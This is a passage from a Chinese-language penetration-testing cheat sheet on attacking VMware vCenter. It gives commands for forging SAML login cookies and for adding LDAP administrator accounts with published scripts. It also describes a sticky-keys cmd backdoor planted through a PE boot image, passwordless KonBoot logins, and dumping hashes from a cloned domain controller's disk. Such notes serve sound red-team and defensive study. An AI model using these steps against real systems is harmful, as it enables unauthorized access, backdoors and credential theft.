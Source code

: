 > 目标机器内网 ip 需要本地可以访问到，否则无法伪造 cookie。
```bash
python3 vcenter_saml_login.py -p data.mdb -t <目标机器内网ip>
```

替换 cookie 进行访问

### LDAP 创建管理员

**相关文章**
- https://3gstudent.github.io/vSphere开发指南5-LDAP

**相关工具**
- https://github.com/3gstudent/Homework-of-Python/blob/master/vCenterLDAP_Manage.py
    ```bash
    # 执行命令搜集相关信息
    python vCenterLDAP_Manage.py
    python vCenterLDAP_Manage.py getadmin
    python vCenterLDAP_Manage.py getuser

    # 根据收集到的信息修改脚本内容
    python vCenterLDAP_Manage.py adduser
    python vCenterLDAP_Manage.py addadmin

    # 登录验证
    ```

### 获取 Vcenter 后台 windows 机器权限

**pe**

把 pe 文件上传到 vcenter 中。然后在 CD/DVD 驱动器中选择刚刚上传的 pe。最后在虚拟机选项中的引导选项勾选强制进入 bios，保存后打开虚拟机电源。

进入 bios 后在 boot 中按 -+ 调整顺序，将 CD-ROM Drive 设置为第一启动项，进入 PE 后在 windows/system32 中将 sethc.exe 改为 sethc.bak，复制一个 cmd 并重命名为 sethc.exe，然后重新勾选强制进入 bios，重启后将 CD-ROM Drive 改回去，然后按五次 shift 弹出 cmd

或者把后门放到启动项里也是一样

- https://mp.weixin.qq.com/s/-cEf0bG8j_8VdoSEeMsNGw

**KonBoot**
- https://mp.weixin.qq.com/s/Okxc4CdFRPe82UHN4UXQHQ

和 pe 也一个套路,通过上传 KonBoot 镜像，然后克隆一台出来，修改引导，免密进入，抓取 hash

**挂载VMDK**
- https://mp.weixin.qq.com/s/JI3YlyComDViFX31UE8ddA

克隆一个域控机器, 将克隆的目标域控机器的 vmdk 文件挂载到一台我们能够正常登录的机器上, 然后本地抓取 hash

**内存取证**
- https://mp.weixin.qq.com/s/DbXxm6vWgtL8uGjO_z-ocA

